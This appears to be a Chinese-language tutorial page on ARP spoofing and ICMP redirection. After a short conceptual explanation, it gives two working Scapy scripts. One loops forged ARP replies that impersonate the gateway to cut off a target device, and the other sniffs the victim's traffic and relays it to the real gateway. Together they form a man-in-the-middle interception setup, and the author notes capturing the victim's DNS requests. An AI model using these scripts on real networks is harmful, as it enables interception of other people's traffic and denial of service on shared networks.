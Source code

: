 arp欺骗和ICMP重定向
======

为了跨网段的arp欺骗

###什么是ICMP重定向
            
ICMP重定向报文是ICMP控制报文中的一种。在特定的情况下，当路由器检测到一台机器使用非优化路由的时候，它会向该主机发送一个ICMP重定向报文，请求主机改变路由。路由器也会把初始数据报向它的目的地转发。

###步骤

发送一个原ip地址为192.168.0.3硬件地址为BB:BB:BB:BB:BB:BB（自己的mac地址）的ARP响应包。 好了，现在每台主机都知道了，一个新的MAC地址对应 192.0.0.3,一个ARP欺骗完成了，但是，每台主机都只会在局域网中找这个地址而根本就不会把发送给192.0.0.3的ip包丢给路由。于是他 还得构造一个ICMP的重定向广播。 自己定制一个ICMP重定向包告诉网络中的主机："到192.0.0.3的路由最短路径不是局域网，而是路由，请主机重定向你们的路由路径，把所有到192.0.0.3的ip包丢给路由。"主机A接受这个合理的ICMP重定向，于是修改自己的路由路径，把对192.0.0.3的通讯都丢给路由器。


####code:


    from scapy.all import *
    import time
    '''
    欺骗客户端：说网关192.168.1.1在我机子的mac这里，所以都会向我发送数据，于是他会断网
    '''
    
    
    clientMAC="4c:b1:99:09:c6:33"
    gateway = "192.168.1.1"
    client = "192.168.1.101"
    m = Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client)
    m.show()
    # send(m, inter=RandNum(10,40), loop=1  )
    # 
    
    while 1:
        	sendp(m)
        	time.sleep(4)
        	
   
运行`sudo python arp.py`并查看wireshare
![](arp1.png)
果然做出了应答。
并向我发送DNS请求。
![](arp2.png)
于是再写了一个脚本，用来将我收到pad的数据转发给网关

    from scapy.all import *
    import time
    
    def resend(x):
        	# x.show()
        	x[Ether].dst = "f0:eb:d0:0b:11:48"
        	# x[IP].dst = "192.168.1.1"
        	# del(x[IP])
        	sendp(x)
    
    
    # not contains arp and 
    sniff(iface="wlan0", filter=" host 192.168.1.101 ", prn=lambda x: resend(x))
  
于是pad又能上网了。。。

